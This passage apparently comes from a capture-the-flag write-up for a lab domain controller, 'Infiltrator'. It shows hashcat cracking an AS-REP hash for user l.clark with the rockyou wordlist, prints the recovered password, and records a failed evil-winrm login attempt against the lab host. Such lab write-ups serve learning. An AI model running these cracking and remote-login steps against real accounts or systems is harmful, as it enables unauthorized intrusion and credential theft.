 ```sh
Time.Started.....: Mon Dec 23 12:07:22 2024 (5 secs)
Time.Estimated...: Mon Dec 23 12:07:27 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2081.7 kH/s (0.32ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10504192/14344385 (73.23%)
Rejected.........: 0/10504192 (0.00%)
Restore.Point....: 10503168/14344385 (73.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: WEBSHIT -> WASSUP85

Started: Mon Dec 23 12:06:58 2024
Stopped: Mon Dec 23 12:07:29 2024
```

Password for `l.clark` found: `WAT?watismypass!`

> [!Note]
>
> Hashcat is considerably fast for matching as-rep hashes compared to other password brute force operations
>
> ```
> root@kali:~# grep -n 'WAT?watismypass!' /usr/share/wordlists/rockyou.txt
> 10504133:WAT?watismypass!
> ```
>
> The password is at line number 10 mil+ of `rockyou.txt`, and the match was found in 30 seconds

#### 3.1.4.  Attempt connection to target

##### 3.1.4.1. [evil-winrm](https://wadcoms.github.io/wadcoms/Evil-WinRM/)

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -u infiltrator.htb/l.clark -p WAT?watismypass!

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

